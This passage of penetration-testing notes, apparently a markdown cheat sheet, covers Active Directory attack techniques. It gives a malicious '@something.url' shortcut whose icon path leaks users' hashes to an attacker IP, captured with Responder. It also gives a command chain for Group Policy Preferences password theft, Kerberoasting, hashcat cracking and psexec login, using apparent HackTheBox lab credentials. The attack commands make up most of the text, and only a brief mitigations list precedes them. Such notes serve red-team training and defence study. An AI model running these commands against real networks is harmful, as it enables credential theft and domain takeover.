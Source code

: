   * Mitigations:

    * Limit user/group token creation permissions

    * Account tiering

    * Local admin restriction

* URL File Attacks: 
  - Save this file to share accessible by many user with the following filename "@something.url":
  ```html
  [InternetShortcut] 
  URL=blah 
  WorkingDirectory=blah      
  IconFile=\\x.x.x.x\%USERNAME%.icon 
  IconIndex=1
  ```
  - Use responder to catch the hashes:
  ```shell
  responder -I eth0 -v
   ```

* GPP (Group Policy Preferences):

  * [GPP](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/) allowed admins to create policies using embedded creds (cPassword) which got leaked; patched in MS14-025.

  ```shell
  #after basic enumeration via nmap
  #we get to know that it is domain controller

  smbclient -L \\\\10.10.10.100\\
  #includes SYSVOL

  smbclient -L \\\\10.10.10.100\\Replication
  #accessing an open share
  #find Groups.xml, which includes CPassword

  #in attacker machine
  gpp-decrypt <CPassword>
  #gives password

  #with username and password, we can use Kerberoasting
  GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
  #gives service ticket hash

  hashcat -m 13100 hash.txt rockyou.txt
  #cracks hash

  psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
  ```

  - Or if we have credentials: use metasploit smb_enum_gpp module
  
* Mimikatz:
